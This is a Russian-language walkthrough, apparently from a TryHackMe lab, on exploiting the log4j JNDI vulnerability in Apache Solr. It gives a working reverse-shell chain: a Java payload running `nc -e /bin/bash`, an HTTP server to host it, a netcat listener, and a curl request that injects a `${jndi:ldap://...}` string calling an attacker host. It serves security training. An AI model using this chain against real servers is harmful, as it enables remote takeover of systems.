 Измените IP-адрес и номер порта злоумышленника соответствующим образом (мы, как и прежде, используем в качестве 
примера номер порта 9999). 

Для этой полезной нагрузки, как вы видите, мы выполним команду на цели, а именно `nc -e /bin/bash`, чтобы позвонить 
обратно на нашу атакующую машину. Эта цель была настроена с помощью ncat для простоты эксплуатации, хотя вы более 
чем приветствуетесь, чтобы экспериментировать с другими полезными нагрузками.  

Скомпилируйте полезную нагрузку `javac Exploit.java -source 8 -target 8` и проверьте ее успешность, запустив ls 
команду и найдя вновь созданный Exploit.class файл; удалите «-source 8 -target 8» из команды, если не используете 
attackbox.

Компилировать код эксплойта Java
`attackbox@tryhackme$ javac Exploit.java -source 8 -target 8`
Запустите указанное выше в той же папке, где вы сохранили файл Exploit.java.
```commandline
Ответ не нужен
```
После создания и компиляции полезной нагрузки вы можете разместить ее, развернув временный HTTP-сервер. 

Разместите файл эксплойта Java через HTTP
`attackbox@tryhackme$ python3 -m http.server`
```commandline
Ответ не нужен
```
Ваша полезная нагрузка создана и скомпилирована, она размещена на HTTP-сервере в одном терминале, ваш сервер ссылок 
LDAP запущен и ждет в другом терминале — затем подготовьте прослушиватель netcat для перехвата вашей обратной 
оболочки в еще одном новом окне терминала:  

Подготовьте свой прослушиватель netcat
`attackbox@tryhackme$ nc -lnvp 9999`
```commandline
Ответ не нужен
```
Наконец, все, что осталось сделать, это запустить эксплойт и запустить наш синтаксис JNDI! Обратите внимание на 
изменения в номере порта (теперь ссылающемся на наш сервер LDAP) и ресурсе, который мы извлекаем, указывая наш 
эксплойт:  


Активируйте эксплойт и запустите наш синтаксис JNDI
`attackbox@tryhackme$ curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'`
При необходимости измените IP-адрес злоумышленника.

Запустите указанную выше команду и поймайте обратный шелл в вашем прослушивателе netcat!
```commandline
Ответ не нужен
```
Теперь вы получили начальный доступ и управление на чистом, свежеустановленном экземпляре Apache Solr. Это всего 
лишь один пример из многих, многих уязвимых приложений, затронутых этой уязвимостью log4j.  
